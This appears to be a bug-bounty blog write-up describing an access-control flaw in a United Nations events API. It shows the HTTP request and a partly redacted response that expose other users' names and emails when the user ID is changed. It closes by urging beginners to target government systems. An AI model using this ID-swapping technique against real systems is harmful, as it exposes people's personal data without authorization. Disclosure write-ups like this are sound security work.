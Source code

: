 ```yaml
---
title: 1 Million users PII Leak :&nbsp;Hacking United Nations
categories:
- write-ups
excerpt: |
  My experience of finding a critical API miconfiguration in the United Nations system which could lead to leak over 1 Million users Personal Identifiable Information.. In this blog post, i’ll explain all the technical part and non-technical parts of it.
image: "https://picsum.photos/2560/600?image=733"
---
```


> My Experience of hacking into United Nations & finding a critical API misconfiguration in their systems which could lead to leak over 1 Million users PII. In this blog post, I’ll explain all the technical part and non-technical parts of it.

- Yeah, So I found two major PII leaks in the United Nations system, 1st Leak(38,000+ users) is dicovered & reported by another researcher & the 2nd leak(1 Million+ users) is discovered & reported by me. 

### My Approach?

1 - So, as you might know, I don't put so much time in recon & all of that stuff. Hence In this case I did the same.

2 - Hence, I tried very basic google dorks to discover some functional assets & eventually found some of them.

3 - My Burp was running in the background, I authorized my self to the application & started testing various functionalities.

4 - The application is responsible for organizing events in the united nations. So there are various functionalities to test.

5 - Found an API endpoint, where it loads the user data via numeric user-id. changing my user-id to someone else user-id will result in information disclosure. 

### How I discovered PII leak.

- There is **favourites** section, where users can add what ever they like. When visiting the favorite section **`/user/favourite`**
- It loads an API endpoint the background i..e **`/api/principals`**, lacks proper access controls, leading to the disclosure of users PII. When accessed with any other valid user ID, the endpoint returns detailed user data, including email addresses, without requiring authentication or authorization.
##### Request 

```r
POST /api/principals HTTP/1.1
Host: █████.un.org
...snip...
Connection: close

{
    "values":[
        "User:{USER-ID}"
        ]
    }
```

##### Response

```r
HTTP/1.1 200 OK
Server: nginx/1.20.1
...snip...
Connection: close

{
    "User:1459327":{
        "affiliation":"Jele█████",
        "affiliation_id":null,
        "affiliation_meta":null,
        "avatar_url":"/user/{user-id}/avatar-hash}",
        "detail":"jele█████31@gmail.com (Jele█████)",
        "email":"jele█████31@gmail.com",
        "first_name":"Jele█████",
        "identifier":"User:1459327",
        "invalid":false,
        "last_name":"█████████",
        "name":"Jele█████ ██████████",
        "title":"none",
        "type":"user",
        "user_id":1459327
        }
    }
```

### Impact

- PII Exposure: More than 1 Million users PII, including email addresses, are exposed to unauthorized access.
- Privacy Violation: Users privacy is compromised, potentially leading to identity theft, phishing attacks, and other malicious activities.
- Compliance Risks: This vulnerability may violate data protection regulations such as GDPR, CCPA, and others, resulting in legal consequences and financial penalties for the organization.

### Conclusion
- It took me about 20 minutes to find this critical API miconfiguration. I didn't perform so much recon, automation ..etc. Just picked-up one asset from google dorks & Start hacking on it. 
- If you're just starting out in hacking, try to find vulnerabilites in governments systems, they are much vulnerable than you think.

#### Timeline
- Reported -> 15/July/2024
- Fixed -> 16/July/2024 & they wanted to meet me in person on a call.

<img src="/assets/logos/first.png" alt="first_response" width="1000" height="auto">

- In personal Call with head of unit & Letter Of Appreciation -> 18/July/2024

<img src="/assets/logos/appr1.png" alt="first_response" width="400" height="auto">
